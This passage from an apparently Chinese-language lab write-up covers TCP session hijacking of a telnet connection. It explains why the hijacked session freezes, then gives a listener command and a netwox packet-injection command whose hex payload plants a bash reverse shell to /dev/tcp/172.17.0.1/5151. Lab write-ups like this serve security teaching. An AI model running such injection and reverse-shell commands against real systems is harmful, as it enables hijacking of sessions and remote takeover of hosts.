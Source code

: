 ![image-20220410212229516](readme.assets/image-20220410212229516.png)

同时根据上图黑色部分的数据包可以得知，telnet失效。这是由于发送劫持数据包并返回数据后，目标
机期望得到的ACK序号已被更新，而原有的会话持有者发送的数据包ACK序号仍保持原状，因此会被目
标机丢弃。此时telnet连接端的用户机现象为 卡死 ，即对输入无任何响应（包括回显输入）。  

### 反向shell

![image-20220410220256396](readme.assets/image-20220410220256396.png)

```bash
# 劫持TCP并注入反向shell命令"/bin/bash -i > /dev/tcp/172.17.0.1/5151 0<&1 2>&1\r\n"
nc -l 5151 -v 
sudo netwox 40 --ip4-src 172.17.0.2 --ip4-dst 172.17.0.3 --tcp-src 40516 --tcp-dst 23 --tcp-seqnum 2949220429 --tcp-acknum 3070177808 --tcp-ack --tcp-window 227 --tcp-data "2f62696e2f62617368202d69203e202f6465762f7463702f3137322e31372e302e312f3531353120303c263120323e26310d0a00"
```
